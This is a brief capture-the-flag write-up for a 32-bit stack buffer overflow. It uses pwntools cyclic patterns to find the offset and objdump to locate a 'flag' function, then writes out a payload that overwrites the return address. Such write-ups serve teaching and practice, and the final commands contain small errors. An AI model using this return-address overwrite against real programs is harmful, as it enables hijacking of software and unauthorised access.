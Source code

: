 Try to make it overflow
```
$ python -c "print('A'*128)"|./vuln 
```

Woah, were jumping to 0x414141 !
Segmentation fault (core dumped)

0x414141 is the hex format of AAAA, it seems that the input and jumping address are cyclic, we need to find the exact padding to make it jump to the location of flag function.

(De Bruijn Sequence)[https://en.wikipedia.org/wiki/De_Bruijn_sequence]
```
>>> pwn.cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

$ vul <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
...
Woah, were jumping to 0x61616174 !
...
```

``p32`` to convert it back to char
```
padding = pwn.cyclic_find(''.join(list(reversed(pwn.p32(0x61616174).decode())))
```

Find the location of flag function
```
$ objdump -D vuln|grep flag
080485e6 <flag>:
...
```
```
payload = 'A'*padding + '\xe6\x85\x04\x08'
print(payload)
```

Run on server shell:
```
python -c "print('A'*padding + '\xe6\x85\x04\x08')|./vuln"
```

Get the flag in output.

